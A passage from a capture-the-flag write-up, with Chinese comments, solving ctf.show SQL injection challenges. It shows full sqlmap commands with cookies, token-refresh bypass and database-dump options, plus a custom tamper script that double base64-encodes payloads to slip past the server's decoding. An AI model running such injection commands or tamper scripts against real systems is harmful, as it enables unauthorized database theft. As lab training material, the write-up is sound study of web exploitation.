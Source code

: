 ```python

```
payload：
```sql
sqlmap -u http://d1669260-f0e8-47e6-93fc-716d2e6a2aa5.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://d1669260-f0e8-47e6-93fc-716d2e6a2aa5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=io8p0l7mvkf5j5n0slb1339pmr" --referer="http://d1669260-f0e8-47e6-93fc-716d2e6a2aa5.challenge.ctf.show/sqlmap.php" --tamper=space20a.py -D ctfshow_web -T ctfshow_flav --dump
```
## web210（sqlmap --tamper base64_reverse）
```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```
观察到需要对传入字符串进行反转->b64encode->反转->b64encode，这样解密过后就会形成注入
自编sqlmap脚本：base64_reverse.py
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2021 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    rev->b64encode->rev->b64encode

    >>> tamper("1' AND SLEEP(5)#")
    'MScgQU5EIFNMRUVQKDUpIw=='
    """

    return encodeBase64(encodeBase64(payload[::-1], binary=False)[::-1], binary=False) if payload else payload

```
payload：
```sql
sqlmap -u http://8d7939fb-e94b-42c5-9958-9e12e356d27b.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://8d7939fb-e94b-42c5-9958-9e12e356d27b.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=kvugtg72oirlau35bd7sp47lft" --referer="http://8d7939fb-e94b-42c5-9958-9e12e356d27b.challenge.ctf.show/sqlmap.php" --tamper=base64_reverse.py -D ctfshow_web -T ctfshow_flavi --dump
```
## web211（sqlmap --tamper base64_reverse）
```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```